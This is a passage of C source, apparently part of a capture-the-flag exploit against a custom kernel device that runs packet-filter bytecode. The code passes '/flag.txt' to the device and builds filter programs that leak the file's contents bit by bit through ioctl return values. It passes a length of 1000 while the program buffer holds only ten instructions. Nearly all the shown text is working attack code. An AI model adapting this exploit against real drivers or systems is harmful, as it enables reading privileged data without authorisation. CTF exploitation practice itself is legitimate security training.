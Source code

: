 ```c
    insn |= (uint64_t)imm << 16;
    return insn;
}

// The user-space structure to pass to set_program
struct program_user {
    uint64_t prog_ptr;
    uint64_t prog_len;
};

// Global file descriptor for the device
int fd;

// Loads program bytecode
void set_program(uint32_t* prog, uint64_t len) {
    struct program_user user_prog = {
        .prog_ptr = (uint64_t)prog,
        .prog_len = len,
    };
    if (ioctl(fd, IOCTL_SET_PROGRAM, &user_prog) != 0) {
        perror("ioctl(SET_PROGRAM) failed");
        exit(EXIT_FAILURE);
    }
}

// runs the VM code against the "packets"
int run_filter() {
    int ret = ioctl(fd, IOCTL_RUN_FILTER, "/flag.txt");
    if (ret < 0) {
        perror("ioctl(RUN_FILTER) failed");
        exit(EXIT_FAILURE);
    }
    return ret;
}

// leaks a bit
int leak_bit(int offset, int bit) {
    uint32_t prog[10];
    int pc = 0;
    prog[pc++] = build_insn(47, 0, 0, offset); // load packet byte into r0
    prog[pc++] = build_insn(19, 0, 0, bit); // and r0 and constent
    prog[pc++] = build_insn(23, 0, 0, bit); // compare constant with r0
    prog[pc++] = build_insn(31, 7, 0 ,7); // if not equal jump to return 1
    prog[pc++] = build_insn(0, 0, 0, 0); // return 0
    prog[pc++] = build_insn(1, 0, 0, 0); // return 1 (small sled due to uncertainty about jump)
    prog[pc++] = build_insn(1, 0, 0, 0);
    prog[pc++] = build_insn(1, 0, 0, 0);


    set_program(prog, 1000); // 1000 was chosen at random, it was found to be large enough
    return run_filter();
}

// Bits  are leaked in reverse order, so we have to swap them afterwards
uint8_t reverse8(uint8_t b) {
    b = (b & 0xF0) >> 4 | (b & 0x0F) << 4;
    b = (b & 0xCC) >> 2 | (b & 0x33) << 2;
    b = (b & 0xAA) >> 1 | (b & 0x55) << 1;
    return b;
}

uint16_t flip_8bits_each_side(uint16_t x) {
    uint8_t high = reverse8(x >> 8);
```